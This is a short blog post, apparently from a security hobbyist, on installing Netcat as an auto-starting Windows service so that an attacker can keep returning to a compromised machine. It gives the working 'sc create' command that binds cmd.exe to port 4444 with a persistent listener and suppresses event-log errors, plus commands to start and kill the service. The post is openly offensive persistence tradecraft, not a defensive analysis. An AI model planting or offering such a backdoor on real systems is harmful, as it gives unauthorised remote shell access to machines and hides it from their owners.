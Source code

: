 ```yaml
---
title: 'Netcat as a service'
date: 2019-11-20 23:45
categories: security
tags: netcat hack learn 
featured_image: '/images/posts/netcat.jpg'
lead_text: "Installing netcat as a windows service"
---
```


Many times I've used Netcat to setup (reverse) shell from a compromised 
machine. Digging into services lately, I thought why not use a service
to make Netcat a persistent to be able to return to the machine.

## Adding the service
Service executables are no regular executables. Upon start, the service
process returns directly after starting, but keeps the process running.

Just using `nc.exe` would block the service control and keep the status
"starting...". So we use `cmd /c start ...` to return immediately after
spawning the `nc.exe` process.

```dos
C:\Windows\system32>sc create NcService binPath= "cmd.exe /c start c:\nc.exe -nLp 4444 -e cmd.exe" start= auto error= ignore
[SC] CreateService SUCCESS

C:\Windows\system32>
```

## Netcat options
Starting netcat with `c:\nc.exe -nLp 4444 -e cmd.exe`.

The options provided to `nc.exe`:

  * -n : Numeric ip-address, no DNS
  * -L : Persistent listener, restart listening after disconnect.
  * -p : Specify to listen on port 4444
  * -e : The program to run upon connect.

## Netcat service create options
The options provided to `sc create`:

  * "start= auto" : Automatically start the service on booting
  * "error= ignore" : Do not log errors to eventlog.
  * "binPath= ..."

## Starting and stopping
Netcat is setup now, but still it is not an actual service.
Netcat will start, but there will be an error:

```dos
C:\>sc start NcService
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

C:\>

```

Also the status will not tell whether Netcat is running, neither
will it be possible to stop the service.

To stop Netcat, use taskkill:
```dos
C:\>taskkill /f /im nc.exe
SUCCESS: The process "nc.exe" with PID 5576 has been terminated.

C:\>sc start NcService
```

## Wrap up
So, not very pretty, but it works fine for me...
